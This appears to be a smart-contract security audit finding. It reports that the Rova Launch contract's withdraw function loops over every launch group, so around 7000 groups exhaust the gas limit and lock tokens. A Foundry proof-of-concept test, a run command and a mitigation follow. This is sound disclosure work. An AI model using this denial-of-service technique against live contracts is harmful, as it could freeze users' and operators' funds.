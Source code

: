 Square Sand Octopus

Medium

# too many groupids will make withdraw function doesn't work

### Summary

creating too many launch groups will cause a denial of service (DoS) for withdraw role as the contract will fail to process withdrawals due to gas limitations.

### Root Cause

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L572-L579
The choice to check all launch groups is a mistake as ti will cause a denial of service (DoS) for withdraw role

### Internal Pre-conditions

1. over 7000 group ids are created

### External Pre-conditions

none

### Attack Path

1. over 7000 group id are created
2. Withdrawal role can't call the withdraw function

### Impact

In case it's an attack path: The withdrawal role suffers an approximate loss of 100% locked tokens in the contract.

### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {IAccessControl} from "@openzeppelin/contracts/access/IAccessControl.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {Test} from "forge-std/Test.sol";
import {LaunchTestBase, IERC20Events} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {LaunchGroupSettings, LaunchGroupStatus, ParticipationRequest} from "../src/Types.sol";
import "forge-std/console.sol";
import {
    CurrencyConfig
} from "../src/Types.sol";
contract LaunchWithdrawTest is Test, Launch, LaunchTestBase, IERC20Events {
    function setUp() public {
        _setUpLaunch();

        // how many launchGroupIds we set
        uint count = 7000;
        bytes32[] memory launchGroupIds = new bytes32[](count);
        
        // one launch group, one participation
        bytes32[] memory participationIds = new bytes32[](count);
        address[] memory users = new address[](count);

        vm.pauseGasMetering();
        for (uint160 i = 0; i < count; i++) {
            bytes32 launchGroupId = generateLauchGroupId(i);
            launchGroupIds[i] = launchGroupId;
            LaunchGroupSettings memory setting = _setupLaunchGroupWithStatusOverride(launchGroupId, LaunchGroupStatus.PENDING);
            setting.status = LaunchGroupStatus.ACTIVE;
            setting.finalizesAtParticipation = true;
            vm.startPrank(manager);
            launch.setLaunchGroupSettings(launchGroupId, setting);
            vm.stopPrank();
            participationIds[i] = bytes32(uint256(i));
            users[i] = vm.addr(uint160(i + 1000000));
            vm.startPrank(users[i]);
            currency.mint(1000 * 10 ** launch.tokenDecimals());
            vm.stopPrank();
        }
       
        _setupParticipationsOverride(participationIds, users, launchGroupIds);

        // Complete the launch group
        vm.startPrank(manager);
        for (uint i = 0; i < count; i++) {
            launch.setLaunchGroupStatus(generateLauchGroupId(i), LaunchGroupStatus.COMPLETED);
        }
        vm.stopPrank();
        vm.resumeGasMetering();
    }

    function _setupParticipationsOverride(bytes32[] memory participationIds, address[] memory users, bytes32[] memory launchGroupIds)
        internal
        returns (ParticipationRequest[] memory)
    {
        ParticipationRequest[] memory requests = new ParticipationRequest[](participationIds.length);
        for (uint256 i = 0; i < participationIds.length; i++) {
            ParticipationRequest memory request = ParticipationRequest({
                chainId: block.chainid,
                launchId: testLaunchId,
                launchGroupId: launchGroupIds[i],
                launchParticipationId: participationIds[i],
                userId: bytes32(uint256(i + 1)),
                userAddress: users[i],
                tokenAmount: 1000 * 10 ** launch.tokenDecimals(),
                currency: address(currency),
                requestExpiresAt: block.timestamp + 1 hours
            });

            bytes memory signature = _signRequest(abi.encode(request));

            vm.startPrank(users[i]);
            currency.approve(
                address(launch), _getCurrencyAmount(request.launchGroupId, request.currency, request.tokenAmount)
            );
            launch.participate(request, signature);
            vm.stopPrank();

            requests[i] = request;
        }
        return requests;
    }

    function test_Withdraw_FullAmount() public {
        uint256 withdrawableAmount = launch.getWithdrawableAmountByCurrency(address(currency));
        assertEq(currency.balanceOf(testWithdrawalAddress), 0);
        assertEq(currency.balanceOf(address(launch)), withdrawableAmount);

        vm.startPrank(testWithdrawalAddress);
        // Verify events
        vm.expectEmit(true, true, true, true);
        emit Transfer(address(launch), testWithdrawalAddress, withdrawableAmount);
        vm.expectEmit(true, true, true, true);
        emit Withdrawal(testWithdrawalAddress, address(currency), withdrawableAmount);

        // Withdraw
        launch.withdraw(address(currency), withdrawableAmount);

        assertEq(currency.balanceOf(testWithdrawalAddress), withdrawableAmount);
        assertEq(currency.balanceOf(address(launch)), 0);
        assertEq(launch.getWithdrawableAmountByCurrency(address(currency)), 0);
    }

    function generateLauchGroupId(uint count) internal pure returns (bytes32) {
        return bytes32(abi.encodePacked("ch72gsb320000ud", vm.toString(count)));
    }

    function _setupLaunchGroupWithStatusOverride(bytes32 launchGroupId, LaunchGroupStatus status)
    internal returns (LaunchGroupSettings memory)
    {
        CurrencyConfig memory currencyConfig =
            CurrencyConfig({tokenPriceBps: 1 * 10 ** currency.decimals(), isEnabled: true});
        LaunchGroupSettings memory setting = LaunchGroupSettings({
            finalizesAtParticipation: false,
            startsAt: block.timestamp,
            endsAt: block.timestamp + 1 days,
            maxTokenAllocation: 10000 * 10 ** launch.tokenDecimals() * 10000,
            minTokenAmountPerUser: 500 * 10 ** launch.tokenDecimals(),
            maxTokenAmountPerUser: 3000 * 10 ** launch.tokenDecimals(),
            status: status
        });
        vm.startPrank(manager);
        launch.createLaunchGroup(launchGroupId, address(currency), currencyConfig, setting);
        vm.stopPrank();
        return setting;
    }    
}

```

name the file Launch.Withdraw.poc.t.sol and copy it to the test folder.
Then run the command 
```shell
$ forge test --match-path test/Launch.Withdraw.poc.t.sol
```
you can find the gas is over 30_000_000 in the screenshot which could cause  a denial of service (DoS)

![Image](https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/a9b8966f-cbc2-4712-a7c2-d88dc82d4213)

### Mitigation

Manually passing in the launchGroupIds parameter might be a better choice.






